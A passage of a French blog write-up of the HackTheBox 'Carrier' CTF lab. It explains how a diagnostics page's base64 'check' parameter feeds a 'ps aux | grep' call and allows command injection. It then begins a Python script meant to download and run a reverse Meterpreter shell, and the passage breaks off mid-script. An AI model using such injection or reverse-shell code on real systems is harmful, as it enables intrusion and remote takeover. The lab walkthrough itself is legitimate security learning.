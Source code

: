 La zone admin contient différentes sections dont une avec des tickets de support et une autre (diagnostics) qui semble obtenir un extrait des processus du système quand on clique sur un bouton...  

![HackTheBox Carrier CTF web admin](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/carrier/carrier_admin_zone.png)

On relève quelques tickets qui semblent intéressants :  

> Rx / LoneWolf7653. User called in to report what is according to him a "critical security issue" in our demarc equipment. Mentioned something about a CVE (??). Request contact info and sent to legal for further action.

> Rx / CastCom.  
> 
> IP Engineering team from one of our upstream ISP called to report a problem with some of their routes being leaked again due to a misconfiguration on our end.  
> 
> Update 2018/06/13: Pb solved: Junior Net Engineer Mike D. was terminated yesterday.  
> 
> Updated: 2018/06/15: CastCom. still reporting issues with 3 networks: 10.120.15,10.120.16,10.120.17/24's, one of their VIP is having issues connecting by FTP to an important server in the 10.120.15.0/24 network, investigating...  
> 
> Updated 2018/06/16: No prbl. found, suspect they had stuck routes after the leak and cleared them manually.

> Rx / Roger (from CastCom): wants to schedule a test of their route filtering policy, asked us to inject one of their routes from our side. He's insisted we tag the route correctly so it is not readvertised to other BGP AS'es.

Ici il est clairement mention de BGP et on commence à cogiter sur comment on va s'y prendre :p   

Romeo Charlie Echo
------------------

La page de diagnostic fait un POST de données en base64 que l'on pourrait résumer comme ça :  

```plain
POST http://10.10.10.105/diag.php HTTP/1.1
check=cXVhZ2dh
```

Le décodage de cette chaîne donne *quagga*. On en déduit que le script prend la valeur dans la variable *check*, la décode en effectue un *ps aux | grep <valeur>*  

Il y a de l'injection de commande dans l'air :)  

On peut tenter d'accoler une commande *ls* et renvoyer le tout après encodage :  

![HackTheBox Carrier CTF web RCE](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/carrier/carrier_rce.png)

J'ai écrit le code suivant qui effectue un download / execute d'un reverse *Meterpreter* (j'ai essuyé quelques refus avant que ça marche d'où les nombreux entêtes) :  

```python
from base64 import b64encode

import netifaces
import requests

sess = requests.session()
sess.headers["User-Agent"] = "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
sess.headers["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
sess.headers["Accept-Language"] = "en-US,en;q=0.5"
sess.headers["Pragma"] = "no-cache"
sess.headers["Upgrade-Insecure-Requests"] = "1"
sess.post(
    "http://10.10.10.105/index.php",
    data={
        "username": "admin",
```